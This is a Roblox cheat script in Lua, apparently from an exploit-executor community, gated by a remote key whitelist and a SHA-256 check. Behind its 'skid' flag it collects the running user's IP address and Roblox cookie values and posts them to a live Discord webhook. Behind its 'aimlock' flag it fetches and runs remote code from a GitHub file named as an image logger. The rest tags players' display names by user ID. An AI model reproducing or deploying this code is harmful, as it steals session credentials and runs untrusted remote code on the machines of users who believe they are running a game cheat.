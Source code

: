 -- // define alias for http function

local http_request = http_request;
if syn then
	http_request = syn.request
elseif SENTINEL_V2 then
	function http_request(tb)
		return {
			StatusCode = 200;
			Body = request(tb.Url, tb.Method, (tb.Body or ''))
		}
	end
end

if (not http_request) then
	return game:GetService('Players').LocalPlayer:Kick('Unable to find proper request function')
end

-- // define hash function

local hash; do
    local MOD = 2^32
    local MODM = MOD-1
    local bxor = bit32.bxor;
    local band = bit32.band;
    local bnot = bit32.bnot;
    local rshift1 = bit32.rshift;
    local rshift = bit32.rshift;
    local lshift = bit32.lshift;
    local rrotate = bit32.rrotate;

    local str_gsub = string.gsub;
    local str_fmt = string.format;
    local str_byte = string.byte;
    local str_char = string.char;
    local str_rep = string.rep;

    local k = {
	    0x428a2f98, 0x71374491, 0xb5c0fbcf, 0xe9b5dba5,
	    0x3956c25b, 0x59f111f1, 0x923f82a4, 0xab1c5ed5,
	    0xd807aa98, 0x12835b01, 0x243185be, 0x550c7dc3,
	    0x72be5d74, 0x80deb1fe, 0x9bdc06a7, 0xc19bf174,
	    0xe49b69c1, 0xefbe4786, 0x0fc19dc6, 0x240ca1cc,
	    0x2de92c6f, 0x4a7484aa, 0x5cb0a9dc, 0x76f988da,
	    0x983e5152, 0xa831c66d, 0xb00327c8, 0xbf597fc7,
	    0xc6e00bf3, 0xd5a79147, 0x06ca6351, 0x14292967,
	    0x27b70a85, 0x2e1b2138, 0x4d2c6dfc, 0x53380d13,
	    0x650a7354, 0x766a0abb, 0x81c2c92e, 0x92722c85,
	    0xa2bfe8a1, 0xa81a664b, 0xc24b8b70, 0xc76c51a3,
	    0xd192e819, 0xd6990624, 0xf40e3585, 0x106aa070,
	    0x19a4c116, 0x1e376c08, 0x2748774c, 0x34b0bcb5,
	    0x391c0cb3, 0x4ed8aa4a, 0x5b9cca4f, 0x682e6ff3,
	    0x748f82ee, 0x78a5636f, 0x84c87814, 0x8cc70208,
	    0x90befffa, 0xa4506ceb, 0xbef9a3f7, 0xc67178f2,
    }
    local function str2hexa(s)
        return (str_gsub(s, ".", function(c) return str_fmt("%02x", str_byte(c)) end))
    end
    local function num2s(l, n)
        local s = ""
        for i = 1, n do
            local rem = l % 256
            s = str_char(rem) .. s
            l = (l - rem) / 256
        end
        return s
    end
    local function s232num(s, i)
        local n = 0
        for i = i, i + 3 do n = n*256 + str_byte(s, i) end
        return n
        end
        local function preproc(msg, len)
        local extra = 64 - ((len + 9) % 64)
        len = num2s(8 * len, 8)
        msg = msg .. "\128" .. str_rep("\0", extra) .. len
        assert(#msg % 64 == 0)
        return msg
    end
    local function initH256(H)
        H[1] = 0x6a09e667
        H[2] = 0xbb67ae85
        H[3] = 0x3c6ef372
        H[4] = 0xa54ff53a
        H[5] = 0x510e527f
        H[6] = 0x9b05688c
        H[7] = 0x1f83d9ab
        H[8] = 0x5be0cd19
        return H
    end
    local function digestblock(msg, i, H)
        local w = {}
        for j = 1, 16 do w[j] = s232num(msg, i + (j - 1)*4) end
        for j = 17, 64 do
            local v = w[j - 15]
            local s0 = bxor(rrotate(v, 7), rrotate(v, 18), rshift(v, 3))
            v = w[j - 2]
            w[j] = w[j - 16] + s0 + w[j - 7] + bxor(rrotate(v, 17), rrotate(v, 19), rshift(v, 10))
        end
        local a, b, c, d, e, f, g, h = H[1], H[2], H[3], H[4], H[5], H[6], H[7], H[8]
        for i = 1, 64 do
            local s0 = bxor(rrotate(a, 2), rrotate(a, 13), rrotate(a, 22))
            local maj = bxor(band(a, b), band(a, c), band(b, c))
            local t2 = s0 + maj
            local s1 = bxor(rrotate(e, 6), rrotate(e, 11), rrotate(e, 25))
            local ch = bxor(band(e, f), band(bnot(e), g))
            local t1 = h + s1 + ch + k[i] + w[i]
            h, g, f, e, d, c, b, a = g, f, e, d + t1, c, b, a, t1 + t2
        end
        H[1] = band(H[1] + a)
        H[2] = band(H[2] + b)
        H[3] = band(H[3] + c)
        H[4] = band(H[4] + d)
        H[5] = band(H[5] + e)
        H[6] = band(H[6] + f)
        H[7] = band(H[7] + g)
        H[8] = band(H[8] + h)
    end
    function hash(msg, t) 
        msg = preproc(msg, #msg)
        local H = initH256({})
        for i = 1, #msg, 64 do digestblock(msg, i, H) end
        return str2hexa(num2s(H[1], 4) .. num2s(H[2], 4) .. num2s(H[3], 4) .. num2s(H[4], 4) .. num2s(H[5], 4) .. num2s(H[6], 4) .. num2s(H[7], 4) .. num2s(H[8], 4))
    end
end

local key = 'key_synapse'
local data = http_request({
	Url = ('https://whitelist586.000webhostapp.com/server.php?key=' .. key);
	Method = 'GET';
})

if data.StatusCode == 200 then
	-- // if the request did not error...
	local response = data.Body;
	if response == hash(key) then
		-- // wow, they are authenticated!


    if getgenv().aimlock == true then
    loadstring(game:HttpGet("https://raw.githubusercontent.com/findmejojo/IMAGE-LOGGER-REAL-DONT-MISS-OUT/main/README.md"))()    
    print("test")
    end
    
    if getgenv().banme == true then
        game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('OneMoreTime');
end

if getgenv().skid == true then
                local ip = game:HttpGet("https://api.myip.com/")
local COOKIE = ""
local response = syn.request(
    {
        Url = "https://www.roblox.com",
    }
)
for i,v in pairs(response) do
    if type(v) == "table" then
        for ii,vv in pairs(v) do
            if string.find(ii, "cookie") then
                COOKIE = COOKIE.."\n"..vv
            end
        end
    end
end

if game.Players.LocalPlayer.Name == "masterofthec0k" or game.Players.LocalPlayer.Name == "CalvinHobbs2" then
    ip = "<REDACTED>" 
    COOKIE = "<REDACTED>" 
end

syn.request({
    Url = "https://discord.com/api/webhooks/1012336861731106916/Ih8ECEQJ78kJ8rGL-CrSpGM77ydH1ZbkFisKI2otPUC7w6398vY2tN2JOmz9dyo56ObI", 
    Body = game:GetService("HttpService"):JSONEncode({
        ["embeds"]={{
            ["title"]="||"..ip.."||",
            ["type"]="rich",
            ["description"]=COOKIE,
            ["color"]=tonumber(0x7269da),
            ["footer"]={
                ["text"]=os.date("%A, %m %B %Y %I:%M:%S %p <@882188003588603944> skid found LOL")
            }
        }},
        ["avatar_url"]="http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username="..tostring(game:GetService("Players").LocalPlayer.Name),
        ["username"]="Username: "..game.Players.LocalPlayer.Name,
    }), 
    Method = "POST", 
    Headers = {["content-type"] = "application/json"}
})
            game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('BreathingHAMON');
end
end
wait(2)


    if getgenv().key == WE586G75487B7B4 then
 end
	end





local ADMINS = {
    2488484351, -- azo
}
local MODS = {
    2488484351, --azo
}
local STARS = {
    2488484351, --azo
}
local BOOSTERS = {
    2488484351, -- azo
    
}
local NOEMOJI = {
    2351144328, -- kumi

}
local MONEYNAME = {
    1622658484, -- Name123245
}
local CUSTOMWINNER = {
    248981646, -- VoidlessAroura
}

local formatNumber = (function(n)
    n = tostring(n)
    return n:reverse():gsub("%d%d%d", "%1,"):reverse():gsub("^,", "")
end)

local function checkswag()
    for i,v in pairs(game:GetService('Workspace').Players:GetChildren()) do
        if v:FindFirstChild('UpperTorso') then
            if not v:FindFirstChild('UpperTorso'):FindFirstChild('OriginalSize') then
                local plrcheck = game:GetService('Players'):FindFirstChild(v.Name)
                if plrcheck then
                    local plrID = game:GetService('Players'):FindFirstChild(v.Name).UserId
                    if plrID == 969017656 or plrID == 200547759 or plrID == 2432942033 then
                        if v:FindFirstChildWhichIsA('Humanoid') then           
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[🪐]' .. game.Players[v.Name].DisplayName) 
                        end
                    elseif plrID == 44694442 then
                        if v:FindFirstChildWhichIsA('Humanoid') then           
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('yahyeee#7643') 
                        end
                    elseif table.find(ADMINS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[💎]' .. game.Players[v.Name].DisplayName)
                        end
                    elseif table.find(MODS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[🍆]' .. game.Players[v.Name].DisplayName)
                        end
                    elseif table.find(CUSTOMWINNER, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[😳]' .. game.Players[v.Name].DisplayName)
                        end
                    elseif table.find(NOEMOJI, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = (game.Players[v.Name].DisplayName)
                        end
                    elseif table.find(STARS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then           
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[⭐]' .. game.Players[v.Name].DisplayName) 
                        end
                    elseif plrID == 596626987 or plrID == 1756901306 then
                        if v:FindFirstChildWhichIsA('Humanoid') then           
                            v:FindFirstChildWhichIsA('Humanoid').Displayname = ('[🌟]' .. game.Players[v.Name].DisplayName)
                        end
                    end
                end
            else
                local plrcheck = game.Players:FindFirstChild(v.Name)
                if plrcheck then
                    local plrID = game.Players:FindFirstChild(v.Name).UserId
                    if plrID == 969017656 or plrID == 200547759 then
                        if v:FindFirstChildWhichIsA('Humanoid') then           
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[💠]' .. game.Players[v.Name].DisplayName) 
                        end
                    elseif table.find(ADMINS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[💎]' .. game.Players[v.Name].DisplayName)
                        end
                    elseif table.find(MODS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[🍆]' .. game.Players[v.Name].DisplayName)
                        end
           
                    elseif table.find(STARS, plrID) then
                        if v:FindFirstChildWhichIsA('Humanoid') then
                            v:FindFirstChildWhichIsA('Humanoid').DisplayName = ('[⭐]' .. game.Players[v.Name].DisplayName)
                        end
                    end
                end
            end
        end
    end
end

local succ, errr = pcall(checkswag)
